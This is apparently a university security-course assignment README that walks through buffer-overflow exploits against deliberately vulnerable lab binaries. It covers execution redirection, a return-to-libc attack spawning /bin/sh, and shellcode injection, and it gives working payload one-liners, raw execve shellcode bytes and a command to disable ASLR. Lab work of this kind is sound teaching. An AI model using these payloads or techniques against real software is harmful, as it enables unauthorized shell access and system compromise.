




# CNS Assignment 4

## Notes

- Disable ASLR using `echo 0 > /proc/sys/kernel/randomize_va_space`.
- Whenever using gdb, first enter `unset env LINES` and `unset env COLUMNS` to match gdb and shell environment variables.
- When executing, use complete path e.g. `/home/xyz/assignment4/executable` instead of `./executable`.
- All addresses are written in reverse order due to little endianess.
- Remove existing binaries using `make clean`.
- Compile all programs using `make`.

## Steps to reproduce

### Redirect execution to print 'access granted'

- Get address of instruction just after `jmp` statement and overflow the buffer to put it in `IsPasswordOkay`'s return address.

  

- E.g. `/path/to/executable/hackthisprogram1_64.out $(python -c '__import__("sys").stdout.buffer.write(b"A"*12+b"B"*16+b"C"*8+b"\x24\x52\x55\x55\x55\x55\x00\x00")')`

### Return to LIBC attack

- Get address of `system` function from libc using `p system` in gdb.

  

- Get starting and ending address of all memory occupied by libc using `info proc map`.
- Get address of `/bin/sh` string from the libc address space using `find <starting addr>,<ending addr>,"/bin/sh"`.

  

- Overflow the buffer to replace return address with address of `system` function call and address of string `/bin/sh` as it's argument.
- E.g. `/path/to/executable/hackthisprogram1_32.out $(python -c '__import__("sys").stdout.buffer.write(b"\x41"*24+b"\x40\x98\xc4\xf7"+b"\x42"*4+b"\xaa\xaf\xdb\xf7")')`

### Shellcode injection

- Get shellcode using `make shellcode`, which produces 36 byte shellcode.
- Get starting address of `Password` buffer using `x Password` in gdb. This is where shellcode execution will start from.

  

- Overflow the buffer to replace return address with starting address of `Password` buffer.
- Additionally prepend the shellcode with `\x91`.
- E.g `/path/to/executable/hackthisprogram1_mod_64.out $(python -c '__import__("sys").stdout.buffer.write(b"\xeb\x08\x2f\x62\x69\x6e\x2f\x73\x68\xff\x31\xc0\x88\x05\xf7\xff\xff\xff\x48\x8d\x3d\xe9\xff\xff\xff\x50\x57\x48\x89\xe6\x31\xd2\xb0\x3b\x0f\x05"+b"\x41"*36+b"\x50\xd9\xff\xff\xff\x7f\x00\x00")')`
